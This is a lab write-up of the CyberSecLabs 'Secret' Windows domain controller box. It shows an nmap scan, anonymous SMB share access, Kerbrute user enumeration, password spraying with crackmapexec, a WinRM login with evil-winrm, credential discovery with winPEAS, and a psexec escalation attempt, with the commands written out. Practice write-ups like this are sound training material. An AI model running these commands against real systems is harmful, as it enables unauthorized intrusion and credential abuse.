 ```yaml
---
description: https://www.cyberseclabs.co.uk/labs/info/Secret/
---
```


# Secret

![](<../../../.gitbook/assets/image (542).png>)

## Nmap

Started with a simple base scan on all ports. `nmap` was aborting early due to ping probes not responding so I used the `-Pn` switch to bypass host discovery.

```
nmap 172.31.1.4 -p- -Pn

PORT      STATE SERVICE
53/tcp    open  domain
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
49666/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49678/tcp open  unknown
49700/tcp open  unknown
```

## SMB

As usual I check SMB with null authentication to see if we have any quick potential vectors for the initial foothold.

![](<../../../.gitbook/assets/image (544) (1).png>)

We are able to read the shares with `smbclient` and then able to connect to the share 'Office\_share' without any valid credentials.

Running the `dir` command reveals we have a fair few directories.

![](<../../../.gitbook/assets/image (545).png>)

I will use `smbget` to recusively download all files which will also output which files are actually downloaded which makes sifting through multiple directories easy.

```
smbget -R smb://172.31.1.4/Office_Share
```

![](<../../../.gitbook/assets/image (546) (1).png>)

Reading the contents of the file for Default\_Password.txt shows the value of 'SecretOrg!'.

The directories we downloaded are named after potential users on the system.

![](<../../../.gitbook/assets/image (547) (1).png>)

This combined with the password value we have discovered could lead to our initial foothold. We should take one of the names and attempt to enumerate the username naming convention. I have created a 'users' file with variations of popular naming conventions.

![](<../../../.gitbook/assets/image (548).png>)

## Kerberos

We can now try `Kerbrute` against the server with this information to see if we get any hits with our mix of usernames. Before we do we need to find the domain name.

As port 3389 is open we can run `nmap` against it with the `-sC` switch for default scripts. This should enumerate the domain name for us.

```
nmap 172.31.1.4 -p 3389 -sC -Pn

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
| rdp-ntlm-info: 
|   Target_Name: SECRET
|   NetBIOS_Domain_Name: SECRET
|   NetBIOS_Computer_Name: SECRET-DC
|   DNS_Domain_Name: SECRET.org
|   DNS_Computer_Name: SECRET-DC.SECRET.org
|   DNS_Tree_Name: SECRET.org
|   Product_Version: 10.0.17763
|_  System_Time: 2020-12-14T19:48:25+00:00
| ssl-cert: Subject: commonName=SECRET-DC.SECRET.org
| Not valid before: 2020-12-13T18:10:36
|_Not valid after:  2021-06-14T18:10:36
|_ssl-date: 2020-12-14T19:48:25+00:00; 0s from scanner time.
```

Now that we have the domain name of 'SECRET.org' we can now run `Kerbrute` to hopefully find any potential usernames.

```
./kerbrute userenum /home/kali/secret/users -d secret.org --dc 172.31.1.4
```

![](<../../../.gitbook/assets/image (549).png>)

{% hint style="info" %}
When running Kerbrute I will add the Administrator and Guest accounts to the usersfile as these accounts normally exist and are a good way to test the returned results are accurate.
{% endhint %}

We see we have the user 'BDover@secret.org'. Now we know the naming convention we can take our usernames and add this variation of known users to the list.

* BDover
* JCakes
* KCurtis
* LFrank

We now run `Kerbrute` again.

![](<../../../.gitbook/assets/image (550).png>)

All users names are valid and we have the password of 'SecretOrg!' we discovered earlier. We can try spraying this password against the usernames to see if we get a hit.

We can use `crackmapexec` to attempt authentication against SMB.

```
crackmapexec smb 172.31.1.4 -u /home/kali/secret/users -p SecretOrg!
```

![](<../../../.gitbook/assets/image (551).png>)

## Initial Foothold

The credentials `JCakes:SecretOrg!` appear to be valid. We can use these credentials against WinRM as port 5985 is open. We can use `Evil-WinRM` for this.

{% embed url="https://github.com/Hackplayers/evil-winrm" %}

```
evil-winrm -u JCakes -p SecretOrg! -i 172.31.1.4
```

![](<../../../.gitbook/assets/image (552).png>)

Looking at `whoami /all` we have nothing too interesting.

![](<../../../.gitbook/assets/image (553).png>)

## Privilege Escalation

I will upload `winPEAS.exe` as per normal procedure to hopefully identify any obvious escalation vectors.

![](<../../../.gitbook/assets/image (554) (1).png>)

Some minutes later we have information regarding AutoLogon credentials.

![](<../../../.gitbook/assets/image (555).png>)

winPEAS has found the following credentials: `secret:vF4$x9#z:-eT~Fy`

We can then try these credentials against WinRM and SMB.

![](<../../../.gitbook/assets/image (556).png>)

We can also spray the password against known user accounts.

![](<../../../.gitbook/assets/image (557).png>)

I then sprayed the password again with crackmapexec except this time I defined the authentication protocol as WinRM.

```
crackmapexec winrm 172.31.1.4 -u /home/kali/secret/users -p 'vF4$x9#z:-eT~Fy'
```

![](<../../../.gitbook/assets/image (558) (1).png>)

Checking the `whoami /all` command we see we have a tonne of privileges and also are a member of the Administrators group.

![](../../../.gitbook/assets/Screenshot\_2020-12-14\_17-06-16.png)

We are not system however, we should attempt to escalate to SYSTEM where possible. We can try Impacket's psexec.py to see if we can spawn a shell as SYSTEM.

```
sudo python2 psexec.py secret.org/bdover:'vF4$x9#z:-eT~Fy'@172.31.1.4
```
